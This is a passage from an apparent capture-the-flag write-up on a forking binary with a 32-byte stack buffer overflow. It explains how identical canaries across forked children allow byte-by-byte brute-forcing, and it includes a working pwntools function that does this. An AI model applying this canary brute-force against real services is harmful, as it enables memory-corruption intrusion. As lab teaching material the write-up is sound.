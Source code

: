 Notice that we read in the first byte of input, and then we scan in that many bytes into our buffer.  
However, our buffer is only 32 bytes, so we have a buffer overflow.  

We have now spotted the vulnerability, but there is still a stack canary we have to deal with, and also we have seen no mention of forking here.  
If we keep going down the backtrace we find this other interesting function  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/1a89386f-838e-4e8a-9c48-6836266ff990)  

We can see that there is a loop running 800 times, and each of the times we fork, and then the child calls the vulnerable `input_function()`. That explains why our program was not terminated when we smashed the canary.  
The child was killed, but then the parent program forked again and we received another child.

## Exploitation

### Dealing with the stack canary
The problem with forking programs and stack canaries, is that the child process is an exact copy of the parent process, including the stack canary.  
That means that every child will have the same stack canary.  
We can then partially overwrite the stack canary and use the children crashing (or not) as an oracle to determine if we guessed correctly.  
This way we can bruteforce one byte at a time. Since the last byte is always `\x00`, we only need to guess 3 bytes which have 256 possible values each. That means at max 768 guesses, which is just fine since the program forks 800 times.  

```python
def bruteforce_canary(io = io):
    canary = [b'\x00']
    input_len = 0x22
    while len(canary) != 4:
        for byte in range(256):
            io.send(input_len.to_bytes(1,'little'))
            
            payload = b'A'*0x20
            for b in canary:
                payload += b
            payload += byte.to_bytes(1,'little')
            io.send(payload)

            response = io.recvuntil(b'exit.')

            if(b'YUM' in response):
                log.success("found byte: " + hex(byte))
                canary.append(byte.to_bytes(1,'little'))
                input_len += 1
                break
    _ = b''
    for b in canary:
        _ += b 
    canary = int.from_bytes(_,'little') 
    return canary
```
